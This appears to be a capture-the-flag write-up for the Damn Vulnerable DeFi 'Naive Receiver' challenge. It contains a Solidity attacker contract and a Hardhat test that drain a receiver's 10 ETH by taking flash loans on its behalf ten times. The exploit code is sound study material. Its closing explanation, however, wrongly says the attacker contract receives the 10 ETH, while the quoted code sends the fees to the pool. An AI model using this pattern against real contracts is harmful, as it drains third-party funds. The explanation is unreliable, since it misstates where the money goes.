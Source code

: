 # Challange #2 - Naive Receiver

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br />
This funcion allows users to borrow ETH from the pool. The pool will only send the ETH if the user’s contract has enough balance to pay the fee.

[NaiveReceiverLenderPool.sol:](/CTF%20-%20Damn%20Vulnerable/contracts/naive-receiver/NaiveReceiverLenderPool.sol)
```solidity
```solidity
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );

        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```

## [Attacker Contract](/CTF%20-%20Damn%20Vulnerable/contracts/attacker-contracts/AttackerNaiveReceiver.sol)

```solidity
import "../naive-receiver/NaiveReceiverLenderPool.sol";

contract AttackerNaiveReceiver {
    NaiveReceiverLenderPool pool;

    constructor(address payable _pool) {
        pool = NaiveReceiverLenderPool(_pool);
    }

    function exploit(address victim) public {
        for (int i = 0; i < 10; i++) {
            pool.flashLoan(victim, 1 ether);
        }
    }
}
```

## [Exploit](/CTF%20-%20Damn%20Vulnerable/test/naive-receiver/naive-receiver.challenge.js)

```javascript
it("Exploit", async function () {
	const AttackerFactory = await ethers.getContractFactory(
		"AttackerNaiveReceiver",
		attacker
	);
	const attackContract = await AttackerFactory.deploy(this.pool.address);

	await attackContract.exploit(this.receiver.address);
});
```

## Explanation

The attacker contract calls the `flashLoan` function 10 times, each time borrowing 1 ETH. The `receiveEther` function of the receiver contract is called 10 times, each time paying 1 ETH fee. The receiver contract has 10 ETH in balance, so it can pay the fee 10 times. The attacker contract receives 10 ETH in total.
